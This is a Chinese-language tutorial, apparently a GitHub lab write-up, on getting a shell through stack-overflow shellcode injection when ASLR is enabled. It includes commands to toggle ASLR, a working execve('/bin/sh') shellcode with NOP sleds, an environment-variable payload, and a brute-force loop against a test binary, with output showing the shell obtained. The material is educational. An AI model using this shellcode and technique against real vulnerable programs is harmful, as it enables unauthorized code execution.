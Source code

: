 # Shellcode injection with ASLR



​	前面我们讨论了在ASLR没有开启的情况下如何通过ret2shellcode方式利用栈溢出getshell。
​	ASLR技术开启，可以允许程序把段地址随机化，一旦开启了地址随机化，我们就很难再正确地定位buffer的地址了。程序的每一次运行，其内存地址都会发生改变，所以之前那种硬编码 shellcode地址 为执行子函数的返回地址的办法就会失效了。在这一节中我们要尝试开启ASLR：

禁用ASLR

`echo "0" | sudo dd of=/proc/sys/kernel/randomize_va_space`

开启ASLR

`echo "2" | sudo dd of=/proc/sys/kernel/randomize_va_space`



#### Scenario 1: With `nop - \x90` sled. 	情景1： 使用nop滑行



假设我添加一些nop在我的shellcode前面

#### NOP
> 在CS领域中, NOP, no-op 和 NOOP (读作 "no op"; 是no operation的缩写) 都是指一个汇编指令, 编程语言的声明, 一种让cpu什么都不做的指令, 我们称呼它叫空指令



那我们就试试在shellcode前面添加 20 个 `nop` 

`python -c 'import struct;shellcode="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"; bufferlen=108; print "\x90"*20+shellcode+"\x90"*(bufferlen-len(shellcode)-20)+"BBBB"+struct.pack("<I", starting address of the buffer)'`

​	然后我们就可以让我们的return address指向从buffer的起始地址开始到shellcode的起始地址（buffer的起始地址+20）之间的任意一个地址，这样我们都能spwan出一个shell来。那么，也就是说我们增加了能够获取shell的机会，有了更多的机会可以spwan到shell而不是只有一个机会。

​	通过调试观察我们可以看到buffer的起始地址的形式类似于这样：`0xff_ _ _ _ _ _ _`  前面会有几个byte是不会变化的，在这个例子中前两个byte： ' 0xff ' 是固定的，因为buffer位于memory的上部。

为了验证，我们编写一个简单的C程式：
```C
int main(){
    int a;
    printf("%p\n", &a);
    return 0;
}
```

编译并重复执行这个程式10次
```bash
$ for i in {1..10};do ./a.out;done
0xffe918bc
0xffdc367c
0xffeaf37c
0xffc31ddc
0xffc6a56c
0xffbcf9bc
0xffbcf02c
0xffbf1dcc
0xfffe386c
0xff9547cc
```
​	

​	我们可以看到和我们设想的一致，0xff开头是固定的。ps: 如果你不相信，可以对程序进行更多的测试。
似乎每一次执行变量a都会从stack中的不同地址加载出来，这个地址可以表示为 0xffXXXXXc (X是十六进制数)
经过更多的测试，我们可以发现规律：地址中的最后半个byte (这里的'c') 取决于变量在程序中的相对位置.
总的来说，变量在stack中的地址是0xffXXXXXX，可以计算一下有 16^6 = 16777216 这么多种可能.
​	容易看出，如果使用我们前面提到的方法, 我们有 21/16777216 的可能可以spwan到shell (21 是空指令滑行的长度, 只要我们的return address能跳到我们的NOP出现的地方就都可以滑行到我们的shellcode并执行shellcode).
​	这意味着平均来说程序每执行大约40k次，shellcode就会被执行一次，这个概率很小，但我们可以从中得到启发，我们可以增加buffer中空指令滑行的长度，但buffer的长度是受限的。增加“nop”的大小将增加shell代码运行的机会。但具体该怎样做呢？

为什么不借助环境变量 **environment variable** ?



#### Scenario 2: Putting long shellcode in env variable 情景2：把shellcode放到环境变量中



​	在我的 vagrant 系统中，我可以让环境变量的大小远远大于buffer的大小，我的系统允许环境变量的大小可以多达 100K
​	我们选择使用环境变量的原因是：它本身就是在stack的上方加载的。

让我们来创建一个名叫 SHELLCODE 的环境变量：
`export SHELLCODE=$(python -c 'print "\x90"*100000 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"')
`

​	替代之前的把return address设为buffer的起始地址，我们这次将把return address设为任意随机的内存中的高位地址，
我们假设在最高地址 `0xffffffff` 和 `0xff9547cc` 之间挑选，我这里选择 `0xff882222`

`$ for i in {1..100}; do ./exploit_me_3 $(python -c 'import struct;print "A"*112 + struct.pack("<I", 0xff882222)'); done`

```bash
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����
Segmentation fault
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����
Segmentation fault
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����
Segmentation fault
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����
Segmentation fault
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����
$whoami
vagrant
```

经过了几次尝试之后，我们拿到了shell  ！！

